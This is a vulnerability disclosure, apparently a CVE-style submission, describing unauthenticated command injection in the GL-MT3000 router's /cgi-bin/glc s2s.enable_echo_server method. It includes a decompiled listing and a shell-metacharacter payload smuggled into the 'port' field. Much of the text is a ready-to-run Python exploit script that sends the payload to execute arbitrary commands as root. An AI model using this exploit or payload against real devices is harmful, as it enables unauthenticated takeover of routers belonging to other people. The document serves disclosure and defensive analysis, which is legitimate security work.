


Submission Date: 2026.5.18
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated command injection vulnerability exists in the `/cgi-bin/glc` endpoint via the `s2s.enable_echo_server` method of the affected product. The `s2s.so` native plugin at `/usr/lib/oui-httpd/rpc/s2s.so` validates the `port` parameter only through `atoi()` for numeric range checking (1-65534), then passes the original unsanitized string to `snprintf()` + `system()`. The `/cgi-bin/glc` binary loads the plugin via `dlopen()/dlsym()` without any authentication check, resulting in root command execution without authentication.

The reported vulnerable flow is:

```text
Unauthenticated attacker
  -> POST /cgi-bin/glc {"object":"s2s","method":"enable_echo_server",
       "args":{"port":"1234 & <cmd>; #"}}
  -> /www/cgi-bin/glc dlopen("s2s.so") -> dlsym("enable_echo_server")
  -> enable_echo_server(args):
       pcVar5 = json_string_value(args.port)    // Source
       iVar4 = atoi(pcVar5)                      // = 1234, passes range check
       // Raw pcVar5 still used below — never sanitized
       snprintf(cmd, 0x80, "%s -p %s -f", "/usr/bin/echo_server", pcVar5)
       system(cmd)                               // SINK
```

Ghidra decompilation of `enable_echo_server` at 0x0001b58 (AArch64 ELF, 1076 bytes, 15 basic blocks):



```c
undefined8 enable_echo_server(undefined8 param_1, undefined8 param_2)
{
    // [1] SOURCE: extract port from JSON args
    json_object_get(param_1, "port");
    pcVar5 = (char *)json_string_value();

    // [2] VALIDATION: atoi() only checks numeric prefix
    if (*pcVar5 == '\0') { error("no port parameter"); }
    iVar4 = atoi(pcVar5);
    if ((iVar4 < 1) || (atoi(pcVar5), 0xfffe < iVar4)) { error("error port parameter"); }

    // [3] SINK 1: kill old echo_server (hardcoded, safe)
    snprintf(cmd, 0x80, "kill -9 $(pgrep -f \"%s\")", "/usr/bin/echo_server");
    system(cmd);

    // [4] SINK 2: start echo_server — pcVar5 NOT sanitized
    snprintf(cmd, 0x80, "%s -p %s -f", "/usr/bin/echo_server", pcVar5);
    system(cmd);  // /bin/sh -c

    // [5] SINK 3: UCI write using raw pcVar5
    guci_set(handle, "firewall.s2s_rule_udp.dest_port", pcVar5);
    // later used in iptables rules after firewall reload
}
```

The `atoi()` function stops parsing at the first non-digit character, so `"1234 & id; #"` passes the range check as 1234 while the shell metacharacters remain in the original `pcVar5` string. No requoting or sanitization occurs before the string is passed to `system()`.

Exploit the vulnerability by sending a crafted HTTP request:

```python
#!/usr/bin/env python3
from __future__ import annotations

import argparse, hashlib, json, re, shlex, ssl, subprocess
import urllib.error, urllib.parse, urllib.request

class GLCClient:
    def __init__(self, base_url: str, timeout: int = 15, verify_ssl: bool = False):
        self.base_url = base_url.rstrip("/")
        self.timeout = timeout
        self._ssl_context = ssl.create_default_context() if verify_ssl else ssl._create_unverified_context()

    def _open(self, req: urllib.request.Request) -> bytes:
        with urllib.request.urlopen(req, timeout=self.timeout, context=self._ssl_context) as resp:
            return resp.read()

    def call(self, obj: str, method: str, args: dict | None = None):
        req = urllib.request.Request(
            f"{self.base_url}/cgi-bin/glc",
            data=json.dumps({"object": obj, "method": method, "args": args or {}}).encode(),
            headers={"Content-Type": "application/json"}, method="POST")
        raw = self._open(req).decode(errors="replace").strip()
        code, body = raw.split(" ", 1) if " " in raw else (raw, "")
        return int(code), body, json.loads(body) if body.strip() else None

def build_port_payload(port_prefix: str, command: str, output_file: str) -> str:
    return f"{port_prefix} & ({command}) > {shlex.quote(output_file)}; #"

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("--base-url", default="http://192.168.8.1")
    parser.add_argument("--port-prefix", default="1234")
    parser.add_argument("--command", default="id")
    parser.add_argument("--output-file", default="/tmp/p13")
    args = parser.parse_args()

    port_payload = build_port_payload(args.port_prefix, args.command, args.output_file)
    client = GLCClient(args.base_url)
    code, raw_body, parsed = client.call("s2s", "enable_echo_server", {"port": port_payload})
    print(f"[+] port arg: {port_payload}")
    print(f"[+] glc code: {code}")
    print(f"[+] response: {parsed if parsed is not None else raw_body}")

if __name__ == "__main__":
    raise SystemExit(main())
```

The exploitation is shown below.


